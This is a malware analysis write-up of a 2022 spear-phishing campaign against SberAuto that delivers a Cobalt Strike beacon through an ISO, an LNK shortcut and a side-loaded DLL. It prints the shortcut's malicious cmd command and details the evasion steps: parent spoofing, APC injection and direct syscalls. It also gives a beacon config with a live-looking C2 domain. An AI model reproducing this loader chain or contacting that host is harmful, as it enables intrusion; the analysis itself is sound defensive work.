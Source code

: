 +++
date = "2023-01-01"
title = "The curious case of SberAuto spear-phishing campaign"
slug = "the-curious-case-of-sberauto-spear-phishing-campaign"
+++



### Summary
On December 19, 2022 malware researcher known as **StopMalvertisin** twitted about a possible APT29 attack.

![Alt text](image-0.png)

The spear-phishing campaign targets **SberAuto**, a Russian online car trading platform associated with the state-owned banking and financial services company **Sberbank**.  
The analyzed attack displayed similar **TTPs** commonly attributed to **APT29** (aka **Cozy Bear**), even though it is unclear why a Russian-backed hacking group should be targeting a domestic web service.


## Technical Analysis
### Initial Stage
The first stage of this attack is represented by an **ISO** file (0b32bd907072d95223e5eb2dc5e3d9e0) named "Алкоголь_2023_zip.iso", uploaded on VirusTotal from Russia on December 19, 2022 and potentially delivered as an email attachment.

![Alt text](image-1.png) 

The archive content closely resembles the one of previous APT29 campaigns.   

![Alt text](image-2.png)


The only folder visible item is a shortcut file disguised as "Алкоголь_2023.pdf". 

```cmd
%windir%/system32/cmd.exe /c start update.exe & "%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe" %cd%/alcohol.pdf
```

Once clicked on the **LNK** file, **update.exe** is firstly executed, followed by the lure PDF document called "alcohol.pdf", which displays the alcohol catalog from the Russian market chain called **Globus Gourmet**.   

![Alt text](image-3.png)

The files "thumbcache.dll" and "update.exe" are actually two legit *signed binaries* of **Microsoft OneDrive**: the latter exploits Windows **search order hijacking** to load the malicious DLL named "version.dll," which has been modified by the threat actor to load an encrypted payload file.

![Alt text](image-4.png)


### Second stage: version.dll
The dynamic-linked library "version.dll" is a 64-bit DLL which is side-loaded by the legit Microsoft OneDrive binary.  
The *compile-timestamp* shows **Sunday, December 18 2022**. 

![Alt text](image-5.png)

The binary first employs ```GetComputerNameExA``` API function to retrieve the hostname of the infected machine and check whether it is equal to ```corp.sberauto[.]com```, an online russian service facilitating car sales website.
If the hostname does not match, the program terminates.

![Alt text](image-7.png)

After that, the malicious DLL iterates through the running processes using ```Process32Next``` to find the ID of **explorer.exe** and obtain its process handle.

![Alt text](image-8.png)

It then creates a *suspended-process* called **RuntimeBroker.exe** using ```CreateProcessA``` and sets "explorer.exe" as the parent process via ```UpdateProcThreadAttribute``` API.

The attribute parameter with the value 0x20007 corresponds to the definition of **PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY**, while the value ```0x100000000000``` corresponds to **PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON**: it is typical for **CobaltStrike** to use CreateProcess API call along with a **STARTUPINFOEX** structure containing this mitigation policy to block DLLs that are not signed by Microsoft.

![Alt text](image-9.png)


Finally, the DLL decrypts the shellcode into "RuntimeBroker.exe" through ```NtAllocateVirtualMemory``` and ```NtWriteVirtualMemory```, sets it to an executable **APC routine** and run it via the ```NtAlertResumeThread```.
All this function API calls are done directly via **syscall** to hinder analysis. 

![Alt text](image-10.png)

The presence of specific debug strings shows that the program was created with **Shhhloader** framework, a "shellcode loader that takes raw shellcode as input and compiles a C++ stub that does a bunch of different things to try and bypass AV/EDR".  

![Alt text](image-11.png)


### Final stage: Cobalt Strike payload
The APC inject shellcode represents a **Cobalt Strike backdoor**, as evidenced by the multiple signature matches of the THOR APT Scanner.  
Firstly, the shellcode finds the "MZ" and "PE" header in the memory.

![Alt text](image-12.png)

Then it links the following Windows API function at **runtime** from parsing **PEB_LDR_DATA** to avoid detection.
* GetProcAddress
* GetModuleHandleW
* LoadLibraryW
* VirtualAlloc
* VirtualProtect

![Alt text](image-13.png)

![Alt text](image-14.png)

After allocating a **RWX** protected memory portion, it injects the shellcode into "RuntimeBroker.exe" process by calling once again the same initial entry function.

![Alt text](image-15.png)

 To extract the C2 configuration of **Cobalt Strike beacon**, SentinelOne CobaltStrikeParser Python script comes in handy. 

 ```bash
 python parse_beacon_config.py --json version.dll
 ```

```json
{
  "BeaconType": [
    "HTTPS"
  ],
  "Port": 443,
  "SleepTime": 46000,
  "MaxGetSize": 1398924,
  "Jitter": 32,
  "MaxDNS": "Not Found",
  "PublicKey": "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCSrC60Ubq+U90iLmHldoLVFW6Bc7vLsQ12BXGcc2c8TQJbnaf8I9dm/dhdZPEoCwQKRbjD/2xlR4Vr/S7IGj1Sh8gKHfJXh96lIhR5W85/+Fdi0weqGbrx9mbu70Ir7bA0ar1vwK17RFIla7B24ffVWNTfsO4fuagDSmR6MSKK2wIDAQABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA==",
  "PublicKey_MD5": "ad07d632e310a66efeb503ee9089ad64",
  "C2Server": "adblockext.ru,/functionalStatus/hw7s8TE4f9GtrBHb8iiFT7RyIAuN",
  "UserAgent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4433.0 Safari/537.36",
  "HttpPostUri": "/rest/2/meetingsfR4TG1Qpai0Oa1Q5fNxdUoAAfFn1"
}
```

The Cobalt Strike beacon uses **Base64 scheme** to communicates with the C2 domain ```adblockext[.]ru``` over **HTTPS**.


## Conclusion
This sample is interesting because a Russian-backed hacking group targeting a domestic website raises some suspicions.  

The similarities with previous APT29 campaigns (i.e., the use of ISO files containing binaries vulnerable to DLL hijacking) may lead to a couple of hypotheses about what this campaign could be:
* An internal Red Teaming exercise, aimed at enhancing cybersecurity measures inside SberAuto employees;
* An attack orchestrated by Ukrainian groups (particularly, The IT Army of Ukraine), trying to simulate Cozy Bear TTPs.  






























